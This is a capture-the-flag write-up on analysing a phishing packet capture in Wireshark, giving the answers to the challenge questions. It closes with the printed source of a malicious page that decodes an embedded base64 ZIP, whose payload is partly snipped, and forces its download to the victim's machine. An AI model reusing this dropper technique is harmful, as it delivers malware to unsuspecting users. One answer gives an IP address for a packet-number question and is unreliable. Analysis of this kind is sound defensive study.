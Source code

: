 # Wireshark Phishing

This was a set of instructions to answer questions at the terminal.

![Wireshark Phishing Terminal](/img/tolkienring/wireshark.png)

!!! question
    This all started when I clicked on a link in my email. 
    Can you help me? 

!!! success ""
    Answer: `Yes`

!!! question
    There are objects in the PCAP file that can be exported by Wireshark and/or Tshark. What type of objects can be exported from this PCAP?

!!! success ""
    Answer `http`

!!! question
    What is the file name of the largest file we can export?

!!! success ""
    Answer `app.php`

!!! question
    What packet number starts that app.php file?

!!! success ""
    Answer `192.185.57.242`

!!! question
    What file is saved to the infected host?

After reviewing the PHP code that was saved, I discovered:

!!! success ""
    Answer: `Ref_Sept24-2020.zip`

!!! question
    Attackers used bad TLS certificates in this traffic. Which countries were they registered to? Submit the names of the countries in alphabetical order separated by a commas (Ex: Norway, South Korea).

This was weird, had to filter on `tls.handshake.type == 11` to obtain all the TLS certs. I opened all the certs and simply chose any that weren't from Redmond WA. In this order, it was:

!!! success ""
    Answer: `Israel, South Sudan`


!!! question
    Was the host infected? Yes/No

I'll take obvious answers for $200, Alex.
!!! success ""
    Answer: `Yes`

Said yes because the php script I reviewed looked realllly fishy...

```javascript linenums="1"
<script>

	let d = -new Date().getTimezoneOffset();
	let n = Intl.DateTimeFormat().resolvedOptions().timeZone;

	function set_cookie (name, value, minutes) {
	  
		let date = new Date();
		date.setTime(date.getTime() + (minutes * 60 * 1000));
		
		let expires = "";
		
		if (minutes)
			expires = "; expires="+date.toGMTString();
			
		document.cookie = name + "=" + escape (value) + expires+";path=/";   
	}

	function get_cookie (cookie_name) {
	  let results = document.cookie.match ('(^|;) ?' + cookie_name + '=([^;]*)(;|$)');
	 
	  if (results)
		return (unescape (results[2]));
	  else
		return null;
	}

	if (!get_cookie('d') && !get_cookie('n')) {
		set_cookie('d', d, 2);
		set_cookie('n', n, 2);
		document . location . reload();
	}

	</script><body>
<script>
function saveAs(blob, fileName) {
    let url = window.URL.createObjectURL(blob);

    let anchorElem = document.createElement('a');
    anchorElem.style = 'display: none';
    anchorElem.href = url;
    anchorElem.download = fileName;

    document.body.appendChild(anchorElem);
    anchorElem.click();

    document.body.removeChild(anchorElem);

    // On Edge, revokeObjectURL should be called only after
    // a.click() has completed, atleast on EdgeHTML 15.15048
    setTimeout(function() {
        window.URL.revokeObjectURL(url);
    }, 1000);
}

(function() {
    let byteCharacters = atob('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


    // snipping a HUGE base64 string for the sake of brevity

    aY1TC8dWE9qBSGR+jktdkyYRJ9agFBE2jOrWUjIYgDWi4cvQBqjcE4+lAWRWmQ4BJkN7cAzzJlBl2ot9AZwen8GZ/
    tGgbhWwhKN984qDxQf5fg7W3/Y6hGeZ2MyeQ1qhopcyYOC2a0J5NclRIxsg6NMnBq85hjZWkwOfpm4aUuUWQ9J3KJP/
    f110cFdL6xfWsuHJT6OTdEW/XJkts0n9bweQLOTIUOhtgDVUpVvhhphRcAzdGLOKNy7d7X3OeucJw3ZRpezS9jzEA5dcHeX6k3b/
    RgtWzXCnK2A23NvvNtW8P0AAAAAAAAAAHV432BVddro/2vtRn59+i/EPXsAQAcAUEsBAh8AFAAAAAgAUKM3UUirsfh7OwkAg3oLABMAJA
    AAAAAAAAAgAAAAAAAAAFJlZl9TZXB0MjQtMjAyMC5zY3IKACAAAAAAAAEAGABgQXRy35HWAQVnJmJUktYBBWcmYlSS1gFQSwUGAAAAAAE
    AAQBlAAAArDsJAAAA');
	
    let byteNumbers = new Array(byteCharacters.length);
    for (let i = 0; i < byteCharacters.length; i++) {
        byteNumbers[i] = byteCharacters.charCodeAt(i);
    }
    let byteArray = new Uint8Array(byteNumbers);
    
    // now that we have the byte array, construct the blob from it
    let blob1 = new Blob([byteArray], {type: 'application/octet-stream'});

    saveAs(blob1, 'Ref_Sept24-2020.zip');
	
})();

</script>
</body>
```